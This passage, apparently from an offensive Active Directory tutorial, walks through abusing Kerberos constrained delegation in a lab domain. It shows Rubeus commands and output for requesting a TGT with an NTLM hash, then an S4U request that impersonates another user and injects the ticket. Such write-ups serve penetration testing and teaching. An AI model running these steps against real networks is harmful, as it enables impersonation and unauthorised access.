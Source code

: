 This will dump any relevant cached `TGS` ticket’s stored on the box which we can then perform a `PTT` ticket attack similar to the `Pass-The-Ticket` section above.

Relatively simple :)
**Example 2 - Plaintext Password too Service Access**
Shoutout to @harmj0y & @gentilkiwi for this example. Really cool imo.

Basically this attack works around the basis that you have compromised a plaintext password of a user account that is trusted for **Constrained Delegation** and/or a RC4 Hash/AES Key. Basically you can use the pass the users password/NTLM hash, request a `TGT` & execute a request for a `TGS` ticket and of course access the respective `SPN` / `Service`

**Request a TGT**
*https://github.com/GhostPack/Rubeus#asktgt*

	PS C:\Users\m0chan> .\Rubeus.exe asktgt /user:m0chan /domain:m0chanAD.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.0.4

	[*] Action: Ask TGT

	[*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
	[*] Using domain controller: DC.m0chanAD.local (172.16.0.254)
	[*] Building AS-REQ (w/ preauth) for: 'm0chanAD.local\m0chan'
	[*] Connecting to 172.16.0.254:88
	[*] Sent 230 bytes
	[*] Received 1377 bytes
	[*] base64(ticket.kirbi):

**Issue S4U Request to Delegated SPN with Specified User**

	PS C:\Users\m0chan> .\Rubeus.exe s4u /ticket:C:\Temp\Tickets\aidanldap.kirbi /impersonateuser:aidan /msdsspn:ldap/dc.m0chanAD.local /altservice:cifs /ptt

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.0.0

	[*] Action: S4U
